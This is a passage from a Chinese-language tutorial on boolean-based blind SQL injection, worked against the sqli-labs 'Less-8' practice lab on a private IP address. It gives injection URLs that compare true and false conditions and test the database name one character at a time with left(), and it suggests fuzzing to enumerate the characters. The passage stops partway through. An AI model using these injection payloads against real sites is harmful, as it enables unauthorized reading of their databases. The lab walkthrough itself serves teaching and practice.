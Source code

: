 简单的逻辑判断为 true，页面显示正常

```plain
http://10.211.55.27/Less-8/?id=1%27%20and%201=1%20--+
```

![image-20220601144659108.png](assets/1706846040-cdb707d099fc89057d31a1b5a7009f9c.png)

当为 1=2 的时候判断为 false 所以当前页面显示异常

```plain
http://10.211.55.27/Less-8/?id=1%27%20and%201=2%20--+
```

![image-20220601144804117.png](assets/1706846040-f2289d266cb511e6089ab09b50137fd6.png)

利用这个特性我们就可以通过这个来判断我们的操作是否是正确的，根据页面的回显来判断我们的操作是否是正确的。这里是判断我们当前数据库`security`的第一个字符是否是`s`

```plain
http://10.211.55.27/Less-8/?id=1%27%20and%20left(database(),1)=%27s%27%20--+
```

![image-20220601145033548.png](assets/1706846040-dba89e931236568c016746e6882679f2.png)

我们把`s`换成`w`页面就显示异常了，实战中我们是不知道这个字符`s`的，我们可以利用 FUZZ 的手段去进行枚举。

![image-20220601145431957.png](assets/1706846040-080c62a27339f06f3adb311cabd056bd.png)

除了 left 之外还有几个函数可以用于此种场景
